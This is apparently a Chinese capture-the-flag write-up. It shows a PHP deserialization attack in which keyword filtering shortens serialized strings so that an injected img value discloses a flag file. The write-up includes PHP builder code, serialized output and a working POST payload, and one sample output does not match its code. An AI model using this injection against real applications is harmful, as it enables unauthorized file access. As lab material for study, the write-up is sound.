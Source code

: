 将function设置成phpinfo，得到flag信息：
![](serialize-unserialize/5.png)

首先要知道我们需要序列化user，function，img。
```
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
$_SESSION['img']=base64_encode('guest_img.png');
```

构建代码输出序列化内容
```
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'z';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';  //d0g3_f1ag.php base64编码
var_dump(serialize($_SESSION));
?>
//得到string(90) "a:3:{s:4:"user";s:5:"guest";s:8:"function";s:1:"z";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}"
```

**注意：**序列化之后长度s获取的字符串的长度一定为s，否则会继续往后读，并且unserialize会把多余的字符串当垃圾处理，在{}内的就是正确的，{}后面的就都被丢弃。  
所以我们的目的是把`$_SESSION['img'] = base64_encode('guest_img.png');`这段代码的img属性放到{}外，然后在{}中注好新的img属性，于是他本来要求的img属性就被替换了。  
```
<?php
$_SESSION["user"] = 'flagflagflagflagflagphp';  //user里的内容会被过滤掉，然后会接着往后取23个字符
$_SESSION['function'] = '";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"bb";}';
$_SESSION['img'] = 'ZDBnM19mMWFnLnBocA==';     //d0g3_f1ag.php base64编码
var_dump(serialize($_SESSION));
?>
```
得到  `a:3:{s:4:"user";s:23:"flagflagflagflagflagphp";s:8:"function";s:57:"";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`  
}  
经过删除和过滤后，于是剩下(其中 *";s:8:"function";s:57:"* 是user的键值，而 *s:1:"a";s:2:"bb";* 是作为第3个序列化数组凑数的):  
  `a:3:{s:4:"user";s:23:"";s:8:"function";s:57:"";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"bb";}`

构造payload：  
`_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:2:"bb";}`  
得到了flag的所在
![](serialize-unserialize/7.png)
